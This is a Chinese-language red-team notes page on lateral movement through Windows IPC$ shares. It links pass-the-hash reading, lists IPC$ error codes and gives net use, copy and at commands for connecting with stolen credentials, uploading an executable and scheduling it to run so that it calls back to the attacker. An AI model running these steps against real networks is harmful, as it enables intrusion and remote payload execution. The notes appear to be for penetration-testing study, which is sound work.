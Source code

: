 # 内网横向

- 学习资料
  - [内网渗透之PTH&PTT&PTK](https://www.cnblogs.com/bmjoker/p/10355979.html)
  - [PTH攻击总结](https://blog.csdn.net/systemino/article/details/106366929)
  - [1earn](https://github.com/No-Github/1earn/blob/8026439435b6bb2f2d37cec07b577d24b49a783c/1earn/Security/RedTeam/OS%E5%AE%89%E5%85%A8/Windows%E5%AE%89%E5%85%A8.md)

- https://0range-x.github.io/2022/01/26/Domain-penetration_one-stop/


### 工作组

#### **横向渗透at&IPC$ 明文上线**

- ipc$
  - IPC$(Internet Process Connection) 是共享 "命名管道" 的资源，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限, 在远程管理计算机和查看计算机的共享资源时使用。

- 条件
  - 必须开启 139 和 445 端口.一般通过账号密码可以登录对应权限的目标共享文件夹。如果是管理员就会访问到 `C$`默认共享文件夹。可以使用 `net share` 查看共享的文件夹。


- 报错集锦

```bash
# 建立IPC常见的错误代码
（1）5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
（2）51：网络问题，Windows 无法找到网络路径
（3）53：找不到网络路径，可能是IP地址错误、目标未开机、目标Lanmanserver服务未启动、有防火墙等问题
（4）67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$
（5）1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
（6）1326：账号密码错误
（7）1792：目标NetLogon服务未启动，连接域控常常会出现此情况
（8）2242：用户密码过期，目标有账号策略，强制定期更改密码

# 建立IPC失败的原因
（1）目标系统不是NT或以上的操作系统
（2）对方没有打开IPC$共享
（3）对方未开启139、445端口，或者被防火墙屏蔽
（4）输出命令、账号密码有错误

```


**开启ipc$**

net share ipc$

**开启admin$**

net share admin$

**连接和上线命令**

```bash

net use \\server\ipc$"password" /user:username # 工作组
net use \\server\ipc$"password" /user:domain\username #域内
dir \\xx.xx.xx.xx\C$\                # 查看文件列表
copy \\xx.xx.xx.xx\C$\1.exe 1.exe  # 下载文件
copy 1.bat \\xx.xx.xx.xx\C$  # 复制文件
net use \\xx.xx.xx.xx\C$\1.exe /del  # 删除IPC
net view xx.xx.xx.xx                # 查看对方共享
at \\IP 时间 c:\1.exe    #添加计划任务
# 等待上线即可
```
